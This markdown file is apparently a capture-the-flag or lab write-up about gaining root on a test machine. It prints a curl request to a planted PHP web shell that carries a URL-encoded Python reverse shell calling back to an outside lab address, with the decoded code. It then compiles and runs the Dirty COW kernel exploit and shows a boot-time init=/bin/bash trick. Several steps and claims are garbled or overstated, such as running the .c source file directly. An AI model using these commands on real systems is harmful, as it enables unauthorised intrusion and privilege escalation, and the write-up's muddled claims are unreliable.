 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**BACKDOOR**

A "backdoor" in the context of computing refers to a hidden method for bypassing normal authentication or security controls, it allows unauthorized access to systems, applications, or networks, often without being detected

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```

<img src="img/photo_5435923932709510485_y.jpg">

Then we commpiled it via and run

```
gcc dirty.c -o dirty -pthread -lcrypt
./dirty.c
```
we entered the new password

AAAAANNNNNNDDDDDD that's it we have done it🚨
Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'gago'
```
#{partition} init=/bin/bash,
live init=/bin/bash
```
And we get the following result

<img src="img/Pasted image 20240712012047.png">

By the way, it turns out that this method works almost on all linux systems currently, and the only way to protect from this is to simply encrypt the disk 🙂

